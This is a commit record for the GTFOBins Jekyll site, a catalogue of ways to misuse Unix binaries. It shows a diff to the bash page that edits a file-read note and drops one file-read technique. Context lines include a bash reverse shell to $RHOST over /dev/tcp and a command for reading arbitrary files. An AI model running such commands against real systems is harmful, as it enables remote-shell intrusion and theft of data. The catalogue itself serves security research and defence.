

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/bash.md, in a window 1280 px wide and 900 px high, scrolled down 1611 px. Shown: the top 870 px of the window, without its empty margins (208-1019 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 2388 px from its top, so only the background shows below that.

Commit message:
Fix bash file read

```diff
--- a/_gtfobins/bash.md
+++ b/_gtfobins/bash.md
@@ -41,14 +41,10 @@ functions:
         export RPORT=12345
         bash -c 'bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'
   file-read:
-    - description: It trims trailing newlines.
+    - description: It trims trailing newlines and it's not binary-safe.
       code: |
         export LFILE=file_to_read
         bash -c 'echo "$(<$LFILE)"'
-    - description: It trims trailing newlines.
-      code: |
-        export LFILE=file_to_read
-        bash -c $'read -r -d \x04 < "$LFILE"; echo "$REPLY"'
   file-write:
     - code: |
         export LFILE=file_to_write
```
